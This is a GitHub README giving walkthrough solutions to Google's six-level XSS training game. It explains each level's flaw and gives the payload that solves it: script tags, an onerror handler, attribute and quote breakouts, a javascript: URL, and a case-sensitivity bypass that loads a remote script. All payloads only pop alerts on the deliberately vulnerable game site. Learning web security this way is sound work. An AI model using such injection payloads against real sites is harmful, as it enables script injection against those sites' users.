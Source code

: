 # XSS-game by Google

Google has created 6 level interactive XSS game. 
[Click here to start playing](https://xss-game.appspot.com/ "XSS game area")

If you can pass all the challenges, you will be rewarded with an appealing cake! <img class="emoji" title=":smiley:" alt=":smiley:" src="https://assets-cdn.github.com/images/icons/emoji/unicode/1f603.png" height="20" width="20" align="absmiddle">

## Level 1: Hello, world of XSS
In this level you will learn what happens to the application if you use input from user directly without proper escaping.

### Solution

```html
<script>alert("Level1");</script>
```


## Level 2: Persistence is key
Similar to level 1. But this time directly inserting `<script>` tag will not work.

### Solution

```html
<img src="demo" onerror='javascript:alert("Level2");' />
```


## Level 3: That sinking Feeling
There is no input field in thie level. But still Cross Site Scripting is possible via the address path as the JavaScript code directly uses `self.location.hash.substr(1)`. It is the url part after the `#` sign.

### Solution

Simply inject the following: 

```javascript
https://xss-game.appspot.com/level3/frame#'onerror='alert("Level3")'
```


## Level 4: Context matters
The code passes user value directly to `onload="startTimer('{{ timer }}');"` method. Thus we can exploit the script. 

### Solution

Add the following part in the input field.

```
');javascript:alert('Level4
```


## Level 5: Breaking protocol
This is the most tricky challenge. Here some templates are connected in chain by storing the `next` URL in a variable. So, if we can somehow change the value of `next` variable then XSS will work.

### Solution

So we simply change the URL to:
 
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert('Level5')

Press GO which will change the URL of Next button to javascript:alert('Level5').

Finally press the Next button.
```


## Level 6: Follow the rabbit
Do you know `regular expression`? If the answer is `yes` what do you think the following code snipper will do?

```javascript
url.match(/^https?:\/\//)
```
Yeah! You are right. It will return true if `url` variable starts with `http. What happen if `url` starts with `HTTP`?

If you do not know `regex`, start learning from 
[Learn Regular Expressions with simple, interactive exercises](https://regexone.com/ "RegexOne,
Learn Regular Expressions with simple, interactive exercises.")

### Solution

```html
https://xss-game.appspot.com/level6/frame#HTTPS://arsho.github.io/rough/alert.js
```


## Congratulation! Let's eat the cake!!

![alt xss_cake](https://raw.githubusercontent.com/arsho/xss_game/master/screenshot/xss_game_cake.png)

<hr>

Author: [Ahmedur Rahman Shovon](https://arsho.github.io)

